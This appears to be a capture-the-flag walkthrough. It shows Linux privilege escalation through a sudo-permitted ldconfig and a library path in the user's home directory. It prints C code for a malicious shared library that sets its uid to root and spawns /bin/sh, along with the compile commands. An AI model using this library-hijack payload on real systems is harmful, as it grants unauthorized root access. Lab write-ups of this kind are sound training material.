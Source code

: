 sudo -l shows we can run ldconfig as root without password

```
deku@quirk:/home/deku$ sudo -l 
Matching Defaults entries for deku on quirk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on quirk:
    (root) NOPASSWD: /sbin/ldconfig

```

according to man page of ldconfig

```
DESCRIPTION
       ldconfig creates the necessary links and cache to the most recent shared libraries found in the direc‐
       tories specified on the command line, in the file /etc/ld.so.conf, and  in  the  trusted  directories,
       /lib  and /usr/lib (on some 64-bit architectures such as x86-64, /lib and /usr/lib are the trusted di‐
       rectories for 32-bit libraries, while /lib64 and /usr/lib64 are used for 64-bit libraries).
```

checking /etc/ld.so.conf.d/ we have an entry for libcustom.so it loads from deku home folder.

```bash
deku@quirk:/home/deku$ ls /etc/ld.so.conf.d/
customlibc.conf  libc.conf  x86_64-linux-gnu.conf
deku@quirk:/home/deku$ cat /etc/ld.so.conf.d/customlibc.conf 
# cutomlibc default configuration
/home/deku
deku@quirk:/home/deku$ 

```

If we place a malicious libcustom.so in deku home directory then executing ldconfig loads our malicious library. 

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void nope(){
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
```

compile with gcc to create a shared object file in deku home directory. This shared object file simply execute bash with root privileges. function name must be nope which is used in the knife binary.

```bash
deku@quirk:/home/deku$ ls
knife  shell.c  user.txt
deku@quirk:/home/deku$ gcc -shared -o libcustom.so -fPIC shell.c 
shell.c: In function ‘nope’:
shell.c:8:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
     system("/bin/sh");
     ^~~~~~
deku@quirk:/home/deku$ ls
knife  libcustom.so  shell.c  user.txt
deku@quirk:/home/deku$ 


```